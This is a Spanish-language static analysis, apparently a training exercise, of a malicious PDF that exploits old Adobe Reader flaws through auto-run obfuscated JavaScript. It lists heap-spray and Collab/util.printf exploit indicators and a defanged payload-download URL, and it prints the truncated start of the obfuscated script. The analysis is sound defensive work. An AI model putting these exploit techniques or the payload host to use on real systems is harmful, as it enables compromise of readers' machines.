<div class="page"/>

- [**1. Análisis inicial de la muestra con PEStudio**](#1-análisis-inicial-de-la-muestra-con-pestudio)
  - [**1.1 Información general:**](#11-información-general)
  - [**1.2 INDICATORS**](#12-indicators)
  - [**1.3 FOOTPRINTING - Huellas Dactilares**](#13-footprinting---huellas-dactilares)
  - [**1.4 El tipo de fichero**](#14-el-tipo-de-fichero)
- [**2. Analizamos la muestra en VirusTotal**](#2-analizamos-la-muestra-en-virustotal)
- [**3. Analizamos el PDF**](#3-analizamos-el-pdf)
  - [**3.1 Exfitool**](#31-exfitool)
  - [**3.2 Pdfinfo**](#32-pdfinfo)
  - [**3.3 Didier Stevens Suite**](#33-didier-stevens-suite)
  - [**3.4 Analizamos con firmas**](#34-analizamos-con-firmas)
- [**4. Los strings**](#4-los-strings)
  - [**4.1 Búsqueda en los strings de IoCs**](#41-búsqueda-en-los-strings-de-iocs)
- [**5. Análisis de objetos del PDF**](#5-análisis-de-objetos-del-pdf)
  - [**5.1 Extraemos todos los objetos con pdf-paser.py**](#51-extraemos-todos-los-objetos-con-pdf-paserpy)
  - [**5.2 El Objeto `1 0`**](#52-el-objeto-1-0)
  - [**5.2 El Objeto \`2 0'**](#52-el-objeto-2-0)
  - [**5.3 El Objeto `5 0`**](#53-el-objeto-5-0)
  - [**5.4 El Objeto `7 0`**](#54-el-objeto-7-0)
  - [**5.5 El Objeto `10 0`**](#55-el-objeto-10-0)
  - [**5.6 El Objeto `12 0`**](#56-el-objeto-12-0)
  - [**5.7 El Objeto `13 0`**](#57-el-objeto-13-0)
- [**6. Desofuscar JavaScript**](#6-desofuscar-javascript)
  - [**6.1 El contenido del fichero desofuscado**](#61-el-contenido-del-fichero-desofuscado)
  - [**6.2 IOCs observados**](#62-iocs-observados)
  - [**6.3 Conclusiones**](#63-conclusiones)
- [**7. Extraer de shellcode**](#7-extraer-de-shellcode)
- [**8. Decodificación de cadenas ofuscadas usando FLOSS**](#8-decodificación-de-cadenas-ofuscadas-usando-floss)
- [**9. Desensamblamos shellcode\_0.bin**](#9-desensamblamos-shellcode_0bin)
  - [**9.1 Localización de kernel32.dll**](#91-localización-de-kernel32dll)
  - [**9.2 Resolución dinámica de APIs**](#92-resolución-dinámica-de-apis)
  - [**9.3 Creación del path de destino**](#93-creación-del-path-de-destino)
  - [**9.4 Carga de urlmon.dll**](#94-carga-de-urlmondll)
  - [**9.5 Descarga del payload remoto**](#95-descarga-del-payload-remoto)
  - [**9.6 Ejecución del fichero descargado**](#96-ejecución-del-fichero-descargado)
  - [**9.7 Conclusiones**](#97-conclusiones)
- [**10. Consolidación de IoCs**](#10-consolidación-de-iocs)
- [**11. Correspondencia con MITRE ATT\&CK**](#11-correspondencia-con-mitre-attck)
- [**12. Conclusiones del análisis estático**](#12-conclusiones-del-análisis-estático)
- [**12. Análisis dinámico**](#12-análisis-dinámico)
  - [**12.1 Preparación de la máquina virtual**](#121-preparación-de-la-máquina-virtual)
    - [**XXX**](#xxx)
    - [**Probamos con una version anterior**](#probamos-con-una-version-anterior)
    - [**Acrobat Reader vulnerable**](#acrobat-reader-vulnerable)
    - [**Process Monitor**](#process-monitor)
    - [**Process Explorer**](#process-explorer)
    - [**Regshot**](#regshot)
    - [**Wireshark**](#wireshark)
- [Ejecutamos en window7](#ejecutamos-en-window7)
  - [Resultado dinámico en Windows 10](#resultado-dinámico-en-windows-10)
  - [cerrar el análisis dinámico](#cerrar-el-análisis-dinámico)
  - [IoCs consolidados](#iocs-consolidados)
  - [IoCs estructurales del PDF](#iocs-estructurales-del-pdf)
  - [IoCs de JavaScript / exploit](#iocs-de-javascript--exploit)
  - [Vulnerabilidades asociadas](#vulnerabilidades-asociadas)
  - [IoCs dinámicos observados](#iocs-dinámicos-observados)
    - [**Ejecución de la muestra**](#ejecución-de-la-muestra)
    - [**Conclusiones del análisis dinámico básico**](#conclusiones-del-análisis-dinámico-básico)
- [**13. Análisis dinámico avanzado con x32dbg**](#13-análisis-dinámico-avanzado-con-x32dbg)


<div class="page"/>


# **1. Análisis inicial de la muestra con PEStudio**


## **1.1 Información general:**

``` 
└─$ file 0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf 
0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf: PDF document, version 1.3, 0 page(s)
```

```
file > sha256,0B3B3B22C8A6E3474150EA1CB8AB494413D3A641D475916114B8C4A94393F753
file > first 32 bytes (hex),25 50 44 46 2D 31 2E 33 0A 25 E2 E3 CF D3 0A 31 20 30 20 6F 62 6A 0A 3C 3C 2F 4F 70 65 6E 41 63 
file > first 32 bytes (text),%PDF-1.3..%..........1 0 obj..<</OpenAc
file > info,size: 17467 bytes, entropy: 3.526
``` 


------------------------------------


## **1.2 INDICATORS**

```
file > name,c:\users\usuario\desktop\0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf
file > sha256,0B3B3B22C8A6E3474150EA1CB8AB494413D3A641D475916114B8C4A94393F753
file > info,size: 17467 bytes, entropy: 3.526
virustotal > score,No se pudo resolver el nombre de servidor o su dirección
``` 

--------------------------------------------------------------------------

## **1.3 FOOTPRINTING - Huellas Dactilares**

```
file > sha256,0B3B3B22C8A6E3474150EA1CB8AB494413D3A641D475916114B8C4A94393F753
```


## **1.4 El tipo de fichero**

-------------------------------------------------------------------------------------------


# **2. Analizamos la muestra en VirusTotal**
Informe de [VirusTotal](https://www.virustotal.com/gui/file/0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753)

  
donde:
| Campo                                    | Valor observado                                                                                      | Relevancia                                                |
| ---------------------------------------- | ---------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| Detecciones                              | `48/61` motores                                                                                      | Alta tasa de detección; confirma consenso de maliciosidad |
| Hash / nombre                            | `0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753`                                   | Coincide con la muestra analizada                         |
| Tamaño                                   | `17.06 KB`                                                                                           | Coincide con el tamaño observado localmente               |
| Tipo                                     | `pdf`                                                                                                | Documento PDF                                             |
| Tags                                     | `cve-2007-5659`, `cve-2009-0927`, `js-embedded`, `exploit`, `autoaction`, `invalid-xref`, `acroform` | Coinciden directamente con nuestros hallazgos             |
| ClamAV                                   | `Pdf.Exploit.Agent-11679`                                                                            | Coincide con el análisis local de ClamAV                  |
| BitDefender / Emsisoft / eScan / Arcabit | `Exploit.CVE-2009-0927.Gen`                                                                          | Refuerza la atribución a explotación de `Collab.getIcon`  |
| GData                                    | `PDF:Exploit.CVE-2007-5659.A`                                                                        | Refuerza la explotación mediante funciones `Collab`       |
| DrWeb                                    | `Exploit.JavaScript.21`                                                                              | Confirma la naturaleza JavaScript del exploit             |
| AhnLab / Avast / AVG / Fortinet          | Detecciones tipo `PDF/Exploit`, `JS:Pdfex-gen`, `JS/Crypt`                                           | Coinciden con PDF exploit con JS ofuscado                 |

Entre las etiquetas asignadas por la plataforma destacan `cve-2007-5659`, `cve-2009-0927`, `js-embedded`, `exploit`, `autoaction`, `invalid-xref` y `acroform`, todas ellas coherentes con los hallazgos obtenidos durante el análisis estático. Asimismo, diferentes motores clasifican la muestra como exploit PDF o JavaScript malicioso, incluyendo detecciones como `Pdf.Exploit.Agent-11679`, `Exploit.CVE-2009-0927.Gen`, `PDF:Exploit.CVE-2007-5659.A` y `Exploit.JavaScript.21.


# **3. Analizamos el PDF**

Instalamos algunas herramientas para hacer el análisis de ese pdf:
```
sudo apt install -y poppler-utils qpdf exiftool binwalk foremost yara clamav jq
pipx install oletools
```

## **3.1 Exfitool**
```
└─$ exiftool 0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf 
ExifTool Version Number         : 13.50
File Name                       : 0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2020:11:18 00:11:30+01:00
File Access Date/Time           : 2026:05:17 13:03:37+02:00
File Inode Change Date/Time     : 2026:05:17 13:03:37+02:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.3
Linearized                      : No
Warning                         : Invalid xref table
```
donde:
- La muestra es un PDF pequeño, versión 1.3, no linealizado, con xref inválida.


En PDF, la tabla xref indica dónde empieza cada objeto dentro del archivo. Si está rota, puede significar una de estas cosas:
- PDF corrupto o mal generado.
- PDF manipulado para evadir herramientas de análisis.
- PDF con estructura anómala usada como parte de una técnica maliciosa.
- Objeto oculto o referencia cruzada engañosa.

Acortamos el nombre del fichero ya que es demasido largo y complica visualmente:
```
SAMPLE="0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf"
```


## **3.2 Pdfinfo**
```
└─$ pdfinfo "$SAMPLE" 
Syntax Error (4502): Command token too long
Syntax Error (4632): Command token too long
Title:           
Keywords:        
Author:          
Creator:         Scribus 1.3.3.12
Producer:        Scribus PDF Library 1.3.3.12
CreationDate:    Thu Jul 22 08:25:04 2010 CEST
ModDate:         Thu Jul 22 08:25:04 2010 CEST
Custom Metadata: no
Metadata Stream: no
Tagged:          no
UserProperties:  no
Suspects:        no
Form:            AcroForm
JavaScript:      yes
Pages:           1
Encrypted:       no
Page size:       595.28 x 841.89 pts (A4)
Page rot:        0
File size:       17467 bytes
Optimized:       no
PDF version:     1.3
```
donde:
- `JavaScript: yes`: Hay JavaScript embebido. 
- `Form: AcroForm`: Tiene formulario PDF. JavaScript + AcroForm es una combinación común en PDFs maliciosos o phishing.
- `Command token too long`: Esto puede aparecer cuando hay tokens anormalmente largos dentro del PDF. Puede ser corrupción, pero también ofuscación, payload codificado o JavaScript empaquetado.
- `Invalid xref table` en exiftool + errores en pdfinfo: La estructura del PDF está dañada o manipulada. En malware PDF esto puede usarse para dificultar el análisis.


## **3.3 Didier Stevens Suite**
**Instalamos Didier Stevens Suite:**
```
cd ~/tools
mkdir -p didier-stevens
cd didier-stevens
wget https://didierstevens.com/files/software/DidierStevensSuite.zip
unzip DidierStevensSuite.zip
```

**Ejecutamos Didier Stevens Suite:**
```
└─$ python3 pdfid.py ~/0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf 
PDFiD 0.2.10 ~/0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf
 PDF Header: %PDF-1.3
 obj                   14
 endobj                14
 stream                 2
 endstream              2
 xref                   1
 trailer                1
 startxref              1
 /Page                  1
 /Encrypt               0
 /ObjStm                0
 /JS                    2
 /JavaScript            3
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          0
 /XFA                   0
 /URI                   0
 /Colors > 2^24         0
```
donde:
- Tiene JavaScript embebido.
- Tiene `/OpenAction`, es decir, puede ejecutar una acción automáticamente al abrirse.
- Tiene `/AcroForm`, por lo que el JavaScript puede estar asociado a campos de formulario.
- No tiene `/EmbeddedFile`, `/Launch` ni `/URI`, así que de momento no parece un PDF con adjunto embebido, ejecución directa de archivo o URL visible.
- El error anterior `Command token too long` sugiere que puede haber JavaScript largo/ofuscado o tokens anómalos.


## **3.4 Analizamos con firmas**
```
└─$ clamscan -r "$SAMPLE"
Loading:     3s, ETA:   0s [========================>]    3.63M/3.63M sigs       
Compiling:   1s, ETA:   0s [========================>]       41/41 tasks 

~/0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf: Pdf.Exploit.Agent-11679 FOUND

----------- SCAN SUMMARY -----------
Known viruses: 3627862
Engine version: 1.4.4
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.02 MB
Data read: 0.02 MB (ratio 1.00:1)
Time: 4.090 sec (0 m 4 s)
Start Date: 2026:05:17 13:34:36
End Date:   2026:05:17 13:34:40
```
donde:
- ClamAV detecta la muestra como `Pdf.Exploit.Agent-11679`, con motor 1.4.4.

Esto encaja con un PDF exploit que probablemente intenta ejecutar JavaScript al abrirse mediante `/OpenAction`.


# **4. Los strings**
```shell
└─$ strings -a -n 6 -t x "$SAMPLE" > strings.txt 

```
donde:
- `-a`:	Escanea todo el fichero.
- `-n 6`: Sólo muestra strings de 6 o más caracteres. Reduce mucho  ruido.
- `-t x`: Muestra el offset en hexadecimal. Muy útil para saltar a esa zona en Ghidra, IDA, x64dbg o PE-bear


El análisis de los strings verifica que este PDF ejecuta JavaScript automáticamente al abrirse mediante `/OpenAction`:
```
/OpenAction <</JS (this.BXcfTYewQ())
/S /JavaScript
```

Eso significa que la función `BXcfTYewQ()` se dispara al abrir el documento. En la estructura también se ve una cadena de objetos que lleva al JavaScript real:
```
/Catalog
/Names 7 0 R
/JavaScript 10 0 R
/JS 13 0 R
/S /JavaScript
13 0 obj
/Length 15932
stream
```

El objeto `13` contiene un stream JavaScript de unos 15.9 KB, ofuscado con doble `eval()` y `String.fromCharCode(...)`.


## **4.1 Búsqueda en los strings de IoCs**
Para la identificación de posibles indicadores de compromiso se realizó una extracción de cadenas sobre la muestra PDF, revisando tanto indicadores propios del formato PDF como artefactos asociados a JavaScript, explotación de memoria, shellcode y posibles recursos externos.

Durante la revisión de los strings se observó que el documento contiene una acción automática de apertura mediante /OpenAction, la cual invoca código JavaScript al abrir el PDF:
```
/OpenAction <</JS (this.BXcfTYewQ())
/S /JavaScript
```

Asimismo, la estructura del documento referencia un bloque JavaScript almacenado en el objeto `13 0 obj`, con una longitud de 15932 bytes. Este bloque comienza con una construcción ofuscada basada en doble `eval()` y `String.fromCharCode`, técnica habitual para dificultar el análisis estático del código embebido.

Entre los indicadores relevantes localizados en los strings destacan:
| Tipo           | Indicador                               | Interpretación                                                |
| -------------- | --------------------------------------- | ------------------------------------------------------------- |
| Estructura PDF | `/OpenAction`                           | Ejecución automática al abrir el documento                    |
| Estructura PDF | `/JavaScript`, `/JS`                    | Presencia de JavaScript embebido                              |
| Estructura PDF | `/AcroForm`                             | Uso de formulario PDF, potencialmente asociado a ejecución JS |
| Ofuscación     | `eval(eval(...))`                       | Doble evaluación dinámica del código                          |
| Ofuscación     | `String.fromCharCode(...)`              | Reconstrucción del script en tiempo de ejecución              |
| Shellcode      | `unescape("%u....")`                    | Shellcode codificado en formato Unicode escape                |
| Heap spray     | `%u9090%u9090`                          | NOP sled clásico                                              |
| Heap spray     | `0x0c0c0c0c`                            | Dirección/patrón típico usado en exploits PDF antiguos        |
| Exploit JS     | `util.printf`                           | Posible explotación de vulnerabilidad en Adobe Reader/Acrobat |
| Exploit JS     | `Collab.collectEmailInfo`               | Uso de función vulnerable de Collab                           |
| Exploit JS     | `Collab.getIcon`                        | Uso de función vulnerable de Collab                           |
| Payload remoto | `hxxp://juvitec[.]net/css/load.php?e=2` | URL embebida en el shellcode                                  |


El código embebido contiene varias funciones con nombres representativos de la lógica del exploit, entre ellas `util_printf`, `collab_email`, `collab_geticon` y `pdf_start`. La función `pdf_start()` consulta la versión del visor mediante `app.viewerVersion` y, en función de dicha versión, selecciona diferentes rutinas de explotación. Esto indica que la muestra intenta cubrir varias versiones vulnerables de Adobe Reader/Acrobat.

También se identificaron patrones de `heap spraying` mediante arrays de memoria, bloques repetidos y shellcode codificado con `unescape()`. La presencia de `%u9090%u9090`, `0x0c0c0c0c`, `mem_array`, `heapblock`, `bigblock` y llamadas a funciones vulnerables confirma que el JavaScript no corresponde a funcionalidad legítima de formulario, sino a código de explotación.

Como IoC de red principal, tras decodificar el shellcode embebido, se obtiene la siguiente URL:
```
hxxp://juvitec[.]net/css/load.php?e=2
```
donde:
- Este indicador debe tratarse como malicioso y no debe consultarse directamente desde una máquina no aislada.

En resumen, la búsqueda de strings revela un PDF con ejecución automática de JavaScript, ofuscación, heap spray, shellcode embebido y un recurso remoto asociado al payload. Estos hallazgos son consistentes con la detección antivirus de la muestra como `Pdf.Exploit.Agent-11679`.

-----------


# **5. Análisis de objetos del PDF**
Un PDF no es simplemente una página con texto e imágenes. Internamente, es una estructura formada por objetos enlazados entre sí, parecida a una pequeña base de datos. Cada objeto puede representar una página, una imagen, una fuente, un formulario, un script, metadatos, una acción automática, recursos gráficos, etc.

A nivel general, un PDF tiene estas partes:
```
Cabecera
Cuerpo con objetos
Tabla xref
Trailer
startxref
%%EOF
```

El cuerpo del PDF está compuesto por objetos. Algunos de los más relevantes son:
- El objeto raíz /Catalog, que actúa como punto de entrada lógico del documento.
- Objetos de páginas, como /Pages y /Page, que definen la estructura y el contenido visual del documento.
- Objetos de recursos, como /Resources, que pueden incluir fuentes, imágenes u otros elementos necesarios para renderizar las páginas.
- Objetos de contenido, normalmente referenciados mediante /Contents, que suelen contener streams con los operadores gráficos de la página.
- Objetos JavaScript, usados legítimamente en algunos formularios, pero también abusados en documentos maliciosos.
- Objetos o entradas de acción, como /OpenAction, /AA o /Launch, que pueden ejecutar acciones al abrir el documento o ante determinados eventos.
- Objetos de formulario, como /AcroForm, usados para formularios interactivos.
- Objetos de metadatos, como /Info, donde pueden aparecer campos como autor, productor, fechas de creación o modificación.


Cuando analizamos un PDF sospechoso, buscamos principalmente los siguientes indicadores:
| Indicador            | Por qué importa                    |
| -------------------- | ---------------------------------- |
| `/JavaScript`, `/JS` | Código embebido                    |
| `/OpenAction`        | Acción automática al abrir         |
| `/AA`                | Acciones automáticas por eventos   |
| `/Launch`            | Posible ejecución externa          |
| `/EmbeddedFile`      | Adjuntos embebidos                 |
| `/Filespec`          | Definición de archivo incrustado   |
| `/RichMedia`         | Multimedia/Flash antiguo           |
| `/XFA`               | Formularios dinámicos              |
| `/URI`               | Enlaces externos                   |
| `/SubmitForm`        | Exfiltración/envío de formulario   |
| `/ObjStm`            | Objetos comprimidos                |
| `/JBIG2Decode`       | Históricamente asociado a exploits |


## **5.1 Extraemos todos los objetos con pdf-paser.py**
```
└─$ python3 DidierStevensSuite/pdf-parser.py  /home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T2/0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf  | tee objects.txt
This program has not been tested with this version of Python (3.13.12)
Should you encounter problems, please use Python version 3.13.9
PDF Comment '%PDF-1.3\n'

PDF Comment '%\xe2\xe3\xcf\xd3\n'

obj 1 0
 Type: /Catalog
 Referencing: 2 0 R, 3 0 R, 4 0 R, 5 0 R, 6 0 R, 7 0 R

  <<
    /OpenAction
      <<
        /JS '(this.BXcfTYewQ\\(\\))'
        /S /JavaScript
      >>
    /Threads 2 0 R
    /Outlines 3 0 R
    /Pages 4 0 R
    /ViewerPreferences
      <<
        /PageDirection /L2R
      >>
    /PageLayout /SinglePage
    /AcroForm 5 0 R
    /Dests 6 0 R
    /Names 7 0 R
    /Type /Catalog
  >>


obj 2 0
 Type: 
 Referencing: 


obj 3 0
 Type: /Outlines
 Referencing: 

  <<
    /Count 0
    /Type /Outlines
  >>


obj 4 0
 Type: /Pages
 Referencing: 8 0 R, 9 0 R

  <<
    /Resources 8 0 R
    /Kids [9 0 R]
    /Count 1
    /Type /Pages
  >>


obj 5 0
 Type: 
 Referencing: 

  <<
    /Fields []
  >>


obj 6 0
 Type: 
 Referencing: 

  <<
  >>


obj 7 0
 Type: 
 Referencing: 10 0 R

  <<
    /JavaScript 10 0 R
  >>


obj 8 0
 Type: 
 Referencing: 

  <<
    /ProcSet [/PDF /Text /ImageB /ImageC /ImageI]
  >>


obj 9 0
 Type: /Page
 Referencing: 4 0 R, 8 0 R, 11 0 R

  <<
    /Rotate 0
    /Parent 4 0 R
    /Resources 8 0 R
    /TrimBox [0 0 595.28000 841.89000]
    /MediaBox [0 0 595.28000 841.89000]
    /pdftk_PageNum 1
    /Contents 11 0 R
    /Type /Page
  >>


obj 10 0
 Type: 
 Referencing: 12 0 R

  <<
    /Names [(New_Script) 12 0 R]
  >>


obj 11 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 31
  >>


obj 12 0
 Type: 
 Referencing: 13 0 R

  <<
    /JS 13 0 R
    /S /JavaScript
  >>


obj 13 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 15932
  >>


obj 14 0
 Type: 
 Referencing: 

  <<
    /Creator (Scribus 1.3.3.12)
    /Title <>
    /Producer (Scribus PDF Library 1.3.3.12)
    /Author <>
    /Keywords <>
    /Trapped /False
    /ModDate (2008312053854)
    /CreationDate (2008312053854)
  >>


xref

trailer
  <<
    /Info 14 0 R
    /Root 1 0 R
    /Size 15
  >>

startxref 4374

PDF Comment '%%EOF\n'

```
donde se recorre el PDF completo y muestra todos los objetos que encuentra.

En el próximo punto analizaremos sólo los objetos relevantes para el ejercicio.

## **5.2 El Objeto `1 0`**
Este objeto es del tipo `/Catalog`. El `/Catalog` es el objeto raíz del documento PDF.

```
/OpenAction
<<
    /JS '(this.BXcfTYewQ\\(\\))'
    /S /JavaScript
>>
```
donde:
- Esto significa que el PDF define una acción automática al abrirse.
- La acción es de tipo JavaScript: `/S /JavaScript`.
- Y ejecuta la llamada: `this.BXcfTYewQ()`.

Por tanto, cuando la víctima abre el PDF en un lector vulnerable, el documento intenta ejecutar automáticamente la función `BXcfTYewQ()`.

La función `BXcfTYewQ()` no está definida directamente dentro del objeto `1 0`. El catálogo también referencia: `/Names 7 0 R`. Ese objeto `/Names` apunta a la sección donde se registran scripts JavaScript nombrados. En esta muestra, esa cadena de referencias lleva al script embebido principal asociado al objeto `13 0`.


El análisis con `pdf-parser.py` sobre el indicador `/OpenAction` identifica el objeto 1 0 como el catálogo principal del documento. Dentro de dicho objeto se define una acción automática de apertura de tipo JavaScript mediante `/S /JavaScript`, que ejecuta la función `this.BXcfTYewQ()`. Este comportamiento implica que el código malicioso se dispara automáticamente al abrir el PDF en un visor compatible o vulnerable, actuando como punto de entrada del exploit.


## **5.3 El Objeto `2 0'**
El objeto `2 0` aparece referenciado desde el catálogo del documento mediante la clave `/Threads`. Sin embargo, el análisis con `pdf-parser.py` no identifica tipo, referencias adicionales, stream ni contenido ejecutable asociado a este objeto. Por tanto, se considera un objeto vacío o placeholder sin relevancia directa en la cadena de explotación.


## **5.4 El Objeto `5 0`**
```
obj 5 0
 Type: 
 Referencing: 

  <<
    /Fields []
  >>
```
El objeto `5 0` es referenciado desde el catálogo principal mediante la entrada `/AcroForm 5 0 R`. Su contenido únicamente incluye `/Fields []`, lo que indica que el documento declara una estructura `AcroForm`, pero no contiene campos de formulario definidos. No se identifican acciones, JavaScript, streams ni referencias adicionales en este objeto. Por tanto, se considera un componente estructural sin participación directa en la cadena de explotación, aunque su presencia resulta contextualmente relevante al confirmar que el indicador `/AcroForm` detectado por las herramientas corresponde a un formulario vacío.


## **5.5 El Objeto `7 0`**
```
bj 7 0
 Type:
 Referencing: 10 0 R

  <<
    /JavaScript 10 0 R
  >>
```
El objeto `7 0` es referenciado desde el catálogo principal mediante la entrada `/Names 7 0 R`. Su contenido define una entrada `/JavaScript 10 0 R`, por lo que actúa como nodo intermedio dentro del árbol de nombres JavaScript del documento. Aunque no contiene código ejecutable directamente, es relevante porque enlaza el catálogo del PDF con la estructura donde se encuentra registrado el script malicioso. Este objeto forma parte de la cadena que permite localizar el JavaScript invocado por la acción automática `/OpenAction`.


## **5.6 El Objeto `10 0`**
```
obj 10 0
 Type: 
 Referencing: 12 0 R

  <<
    /Names [(New_Script) 12 0 R]
  >>
```
El objeto `10 0` es relevante porque forma parte del árbol de nombres JavaScript del PDF y enlaza con el objeto `12 0`, que a su vez apunta al código JavaScript real.

Contiene un array `/Names` que registra un script denominado `New_Script` y lo asocia al objeto `12 0 R`. Este objeto forma parte del árbol de nombres JavaScript del documento, accesible desde el catálogo principal a través de `/Names 7 0 R` y `/JavaScript 10 0 R`. Aunque no contiene código ejecutable directamente, es relevante porque enlaza la estructura de nombres del PDF con la acción JavaScript definida en el objeto `12 0`, que posteriormente referencia el stream principal del objeto `13 0`. Por ello, se considera un componente clave en la cadena que permite localizar y ejecutar el código malicioso embebido.


## **5.7 El Objeto `12 0`**
El objeto `12 0` es crítico en la cadena de ejecución porque define una acción JavaScript y apunta directamente al objeto `13 0`, donde está el código real.

Define una acción de tipo JavaScript mediante la entrada `/S /JavaScript`. El código asociado no se encuentra embebido directamente en este objeto, sino referenciado a través de `/JS 13 0 R`, lo que apunta al objeto `13 0`, donde se almacena el stream JavaScript principal. Este objeto forma parte de la cadena de nombres JavaScript registrada en el documento y actúa como intermediario entre el script denominado `New_Script` y el código malicioso real. Por ello, se considera un componente clave de la cadena de explotación.


## **5.8 El Objeto `13 0`**
```
obj 13 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 15932
  >>
```
En este objeto se encuentra el JavaScript principal del exploit. No tiene `/Type` ni referencias a otros objetos, pero sí contiene un stream de `15932 bytes`. Esto es clave: el contenido malicioso no está expresado como diccionario PDF, sino dentro del stream.

La cadena completa es:
```
obj 1 0 /Catalog
  ├── /OpenAction
  │     └── ejecuta this.BXcfTYewQ()
  │
  └── /Names 7 0 R
        └── /JavaScript 10 0 R
              └── /Names [(New_Script) 12 0 R]
                    └── obj 12 0
                          └── /JS 13 0 R
                                └── obj 13 0: stream JavaScript malicioso
```

En los strings extraídos se observa que el stream del objeto `13 0` comienza con una construcción ofuscada basada en doble `eval()` y `String.fromCharCode`, concretamente con una forma similar a `var n = ""; eval(eval('Stri'+n+'ng.fr'+n+'omCharC'+n+'ode(...)))`. Esto confirma que el código intenta reconstruirse dinámicamente para dificultar el análisis estático.

**Dentro del stream se identifican:**
```
eval(eval(...))
String.fromCharCode(...)
unescape("%u....")
util.printf(...)
Collab.collectEmailInfo(...)
Collab.getIcon(...)
app.viewerVersion
heapblock
bigblock
mem_array
shellcode
```

**El objeto `13 0` no se ejecuta por sí solo. Se ejecuta porque:**
- El catálogo del PDF contiene `/OpenAction`.
- `/OpenAction` ejecuta `this.BXcfTYewQ()`.
- La función `BXcfTYewQ()` está definida dentro del JavaScript almacenado en el objeto `13 0`.
- El script comprueba la versión del visor PDF.
- Según la versión, lanza una de varias rutinas de explotación.


**IOCs en este objeto:**
```
| Indicador                            | Significado                                         |
| ------------------------------------ | --------------------------------------------------- |
| `eval(eval(...))`                    | Doble desofuscación dinámica                        |
| `String.fromCharCode(...)`           | Reconstrucción del código a partir de valores ASCII |
| `unescape("%u....")`                 | Shellcode codificado en Unicode escape              |
| `%u9090%u9090`                       | NOP sled clásico                                    |
| `0x0c0c0c0c`                         | Patrón habitual en heap spraying                    |
| `mem_array`, `heapblock`, `bigblock` | Preparación de memoria para explotación             |
| `util.printf`                        | Ruta de explotación asociada a Adobe Reader antiguo |
| `Collab.collectEmailInfo`            | Ruta de explotación mediante funciones Collab       |
| `Collab.getIcon`                     | Otra ruta de explotación mediante Collab            |
| `app.viewerVersion`                  | Selección de exploit según versión del visor        |
```

El objeto `13 0` contiene un stream de `15932 bytes` referenciado desde el objeto `12 0` mediante la entrada `/JS 13 0 R`. Aunque no presenta un `/Type` definido ni referencias adicionales, este objeto almacena el JavaScript principal del documento. El contenido del stream se encuentra ofuscado mediante doble `eval()` y reconstrucción dinámica con `String.fromCharCode()`. En su interior se identifican patrones asociados a explotación, como `unescape("%u....")`, `heap spraying`, uso de arrays de memoria, `%u9090%u9090`, `0x0c0c0c0c`, llamadas a `util.printf`, `Collab.collectEmailInfo` y `Collab.getIcon`. Por tanto, este objeto constituye el núcleo malicioso de la muestra y contiene el payload JavaScript que se ejecuta tras la acción automática `/OpenAction` definida en el catálogo del PDF.


**Extraemos este objeto:**
```
└─$ python3 DidierStevensSuite/pdf-parser.py --object 13 --dump object_13.js  "$SAMPLE"
```

**Mostramos el objeto:**
```
└─$ cat object_13.js
var n = ""; eval(eval('Stri'+n+'ng.fr'+n+'omCharC'+n+'ode(102,117,110,99,116,105,111,110,32,66,88,99,102,84,89,101,119,81,40,41,123,102,117,110,99,116,105,111,110,32,102,105,120,95,105,116,40,121,97,114,115,112,44,108,101,110,41,123,119,104,105,108,101,40,121,97,114,115,112,46,108,101,110,103,116,104,42,50,
...
...
```
donde:
